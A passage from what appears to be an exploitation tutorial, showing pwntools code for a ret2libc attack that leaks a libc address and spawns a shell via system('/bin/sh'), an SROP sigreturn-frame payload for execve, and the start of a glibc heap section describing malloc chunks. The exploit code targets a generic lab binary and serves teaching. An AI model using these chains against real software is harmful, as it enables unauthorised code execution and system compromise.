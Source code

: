 ```python

p = process('./vulnerable')
p.sendline(payload)
p.recvline()

# Parse leaked address
leak = u64(p.recv(6).ljust(8, b'\x00'))
libc.address = leak - libc.symbols['puts']
log.success(f"Libc base: {hex(libc.address)}")

# 2. Call system("/bin/sh")
rop2 = ROP(libc)
rop2.call('system', [next(libc.search(b'/bin/sh\x00'))])

payload2 = b"A" * 72
payload2 += rop2.chain()

p.sendline(payload2)
p.interactive()
```

### Advanced ROP: SROP (Sigreturn-Oriented Programming)

```python
# Exploiting sigreturn syscall
from pwn import *

context.arch = 'amd64'

# Build sigreturn frame
frame = SigreturnFrame()
frame.rax = 59  # execve syscall
frame.rdi = 0x601000  # Address of "/bin/sh"
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_gadget  # Address of "syscall; ret"

payload = b"A" * offset
payload += p64(sigreturn_gadget)  # mov rax, 15; syscall; ret
payload += bytes(frame)
```

---

## 3. Heap Exploitation

### Heap Structures

**Glibc malloc chunks**:

```c
struct malloc_chunk {
    size_t prev_size;  // Size of previous chunk (if free)
    size_t size;       // Size of this chunk
    struct malloc_chunk *fd;  // Forward pointer (free chunks)
    struct malloc_chunk *bk;  // Backward pointer (free chunks)
    // User data follows...
};
```
